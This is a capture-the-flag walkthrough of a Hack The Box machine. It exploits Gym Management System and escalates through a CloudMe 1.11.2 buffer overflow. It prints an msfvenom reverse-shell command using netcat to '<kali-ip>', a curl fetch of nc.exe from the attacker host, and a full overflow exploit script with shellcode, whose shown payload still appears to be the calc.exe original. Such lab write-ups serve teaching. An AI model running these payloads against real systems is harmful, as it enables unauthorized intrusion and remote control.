IP: 10.10.10.198
We’ll start things off with an NMap scan. 
The webserver on port 8080 looks to be running Gym Management System. The standard footer has been changed to hide this, but it’s still on the contact page.  
We can use a public exploit to get a basic shell from here. If you’re running Kali 2020, you will probably need to fix the exploit in order for it to work since Python2.7 is heavily phased out. This can be done with 2to3-2.7 -w 48506.py. 
Now we can run the exploit properly with Python3. 
We can grab the user flag now before we try to get a better shell on the box. 
CertUtil doesn’t want to cooperate, but we do have access to Curl. We’ll host a Netcat binary with python -m SimpleHTTPServer 80 and then run curl -O <kali-ip>:80/nc.exe to pull it to the target.  
Now we can start a listener and then call Netcat.  
If we take a look at running processes with tasklist we see a strange process called CloudMe. 
Looking around, we find the exe in Shaun’s downloads folder. 
A quick google search shows us that this version is vulnerable to a buffer overflow attack. Given the name of the box, this should be our way to privesc. The default port for CloudMe is 8888. We can check to see if it’s listening on that with netstat -aof | findstr :8888. 
Unfortunately we can’t access this directly if we look back at our Nmap scan. We’ll have to find a way to pivot into it using something like Plink.

We need to run Curl in another instance of the web shell.  
Now we can start up the SSH service on our system for the incoming connection we’ll make with Plink. 
Before we make the connection, I strongly suggest you use the passwd command to set a temp password, or use a temporary account in case someone manages to hijack your credentials. 
After some tinkering, we find that trying to call Plink from within the CMD shell we have doesn’t work. Restarting the NC shell while passing powershell.exe shows the certificate dialog so we can confirm it. We have also set our SSH service to run on port 443 as well since HTB blocks SSH out on port 22 to keep users safer. 
Now we can generate a payload for the CloudMe exploit using MsfVenom.
1
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe <kali-ip> 4445 -e powershell.exe' -b '\x00\x0A\x0D' -f python -v payload

Now we have our finished exploit.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86
#Instructions:
# Start the CloudMe service and run the script.
import socket
target = "127.0.0.1"
padding1 = b"\x90" * 1052
EIP = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS = b"\x90" * 30
#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload = b""
payload += b"\xd9\xd0\xd9\x74\x24\xf4\xba\x32\x4a\x21\x90\x58"
payload += b"\x2b\xc9\xb1\x40\x83\xe8\xfc\x31\x50\x14\x03\x50"
payload += b"\x26\xa8\xd4\x6c\xae\xae\x17\x8d\x2e\xcf\x9e\x68"
payload += b"\x1f\xcf\xc5\xf9\x0f\xff\x8e\xac\xa3\x74\xc2\x44"
payload += b"\x30\xf8\xcb\x6b\xf1\xb7\x2d\x45\x02\xeb\x0e\xc4"
payload += b"\x80\xf6\x42\x26\xb9\x38\x97\x27\xfe\x25\x5a\x75"
payload += b"\x57\x21\xc9\x6a\xdc\x7f\xd2\x01\xae\x6e\x52\xf5"
payload += b"\x66\x90\x73\xa8\xfd\xcb\x53\x4a\xd2\x67\xda\x54"
payload += b"\x37\x4d\x94\xef\x83\x39\x27\x26\xda\xc2\x84\x07"
payload += b"\xd3\x30\xd4\x40\xd3\xaa\xa3\xb8\x20\x56\xb4\x7e"
payload += b"\x5b\x8c\x31\x65\xfb\x47\xe1\x41\xfa\x84\x74\x01"
payload += b"\xf0\x61\xf2\x4d\x14\x77\xd7\xe5\x20\xfc\xd6\x29"
payload += b"\xa1\x46\xfd\xed\xea\x1d\x9c\xb4\x56\xf3\xa1\xa7"
payload += b"\x39\xac\x07\xa3\xd7\xb9\x35\xee\xbd\x3c\xcb\x94"
payload += b"\xf3\x3f\xd3\x96\xa3\x57\xe2\x1d\x2c\x2f\xfb\xf7"
payload += b"\x09\xdf\xb1\x5a\x3b\x48\x1c\x0f\x7e\x15\x9f\xe5"
payload += b"\xbc\x20\x1c\x0c\x3c\xd7\x3c\x65\x39\x93\xfa\x95"
payload += b"\x33\x8c\x6e\x9a\xe0\xad\xba\xd9\x3c\x0e\x3d\xbf"
payload += b"\x2d\xde\xcd\x63\xc5\x6a\x4a\xf3\x76\xe0\xce\x6c"
payload += b"\x01\x6b\xb3\x07\x81\x1f\x24\x89\x05\xbc\xd4\x2a"
payload += b"\xeb\x59\x51\xc8\xd3\x90\x91\x3c\x22\xe3\xff\x71"
payload += b"\x70\x2d\x31\x42\x58\x05\x05\x96\xad\x45\x48\xb3"
payload += b"\xed\xf5\xfd\x4c\x88\x87\x72\xdb\x37\x04\x19\x35"
payload += b"\xd2\xac\x84\x49"
overrun = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))
buf = padding1 + EIP + NOPS + payload + overrun
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(buf)
except Exception as e:
print(sys.exc_value)
We’ll start up a new Netcat listener on port 4445 and fire off the exploit.  
All that’s left is to grab the root flag. 